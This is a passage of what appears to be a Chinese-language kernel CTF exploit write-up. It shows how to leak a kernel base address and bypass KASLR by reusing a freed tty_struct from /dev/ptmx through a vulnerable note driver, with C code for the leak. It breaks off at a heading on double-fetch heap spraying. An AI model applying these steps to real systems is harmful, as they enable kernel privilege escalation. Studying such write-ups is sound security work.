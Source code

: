 
# 利用

#### 1.leak内核地址

打开设备对象/dev/ptmx时会分配这样一个结构体tty_struct，tty_struct结构中存在很多指针，可以泄露这些指针来获取内核地址，绕过kalsr.


```python
struct tty_struct {
    int magic;
    struct kref kref;
    struct device *dev;
    struct tty_driver *driver;
    const struct tty_operations *ops;
    int index;
    ......

```

关于**内核slub机制**：

编写代码时，如果使用常量大小调用kmalloc，编译器将对其进行优化，并使用该大小的通用缓存直接调用`kmem_cache_alloc_trace`，从cache中分配。

释放`tty_struct`是用`kfree_rcu`完成的。在这个场景中，rcu是一种等待对象不再被任何其他线程使用的方法，在这一点上，释放对象是安全的。它实际做到这一点的方法是，在使用有问题的对象时防止上下文切换，并在释放对象之前等待所有内核都进行了上下文切换。这对我们意味着，在关闭ptmx的文件描述符（触发对kfree_rcu的调用）之后，`tty_struct`块实际上可能还没有释放。为了解决这个问题，我们只需要做一个sleep（1）来确保rcu的宽限期已过。

所以我们可以这样泄露内核地址：


```c
    int fdp=open("/dev/ptmx", O_RDWR|O_NOCTTY);
    close(fdp);
    sleep(1); // trigger rcu grace period

    struct data d;
    d.menu=1;
    d.arg=0x2e0;  // sizeof(tty_struct) =0x2e0
    write(fd, (char *)&d, sizeof(struct data));

    d.menu=5;
    d.arg = 0;  // select note i -> 0 
    write(fd, (char *)&d, sizeof(struct data));

    char buf[0x100];
    read(fd, buf, 0x100);
    unsigned long leak;
    leak= *(size_t *)(buf+3*8);
    kernel_base = leak - 0xA35360;

```

#### 2.利用double-fetch做堆喷
